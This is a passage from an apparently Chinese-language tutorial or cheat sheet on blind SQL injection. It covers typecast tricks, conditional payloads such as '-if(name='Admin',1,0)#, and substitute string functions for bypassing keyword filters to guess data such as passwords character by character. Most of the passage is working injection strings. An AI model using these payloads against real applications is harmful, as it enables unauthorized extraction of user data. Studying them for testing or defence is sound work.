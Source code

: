 ```
select data from users where name = ''-0 # int typecast
select data from users where name = 0 # int typecast
select data from users where 0 = 0 # true
```

'-1#

```
select data from users where 0 = -1 # false
```

使用条件判断来进行`true、false`的选择

```
    ifnull(nullif()), case when， if()
    '-if(name='Admin',1,0)#
```

使用嵌套条件`'-if(`

```
if(name='Admin',1,0), // condition
if(substr(pass,1,1)='a',1,0) // if true
,0)# // if false    
```

# 0x03 函数过滤

***

构建字符串相关函数

```
unhex char hex ascii ord substr substring mid pad left right insert
' and substr(data,1,1) = 'a'#
' and substr(data,1,1) = 0x61# 0x6162
' and substr(data,1,1) = unhex(61)# unhex(6162)
' and substr(data,1,1) = char(97)# char(97,98)
' and hex(substr(data,1,1)) = 61#
' and ascii(substr(data,1,1)) = 97#
' and ord(substr(data,1,1)) = 97#
```

使用conv来进行进制的转换

```
' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
' and substr(data,1,1) = lower(conv(11,10,36))# 'b'
' and substr(data,1,1) = lower(conv(36,10,36))# 'z'
```

使用函数来猜解数据

```
' and substr(data,1,1) = 'a'#
' and substring(data,1,1) = 'a'#
' and mid(data,1,1) = 'a'#
```
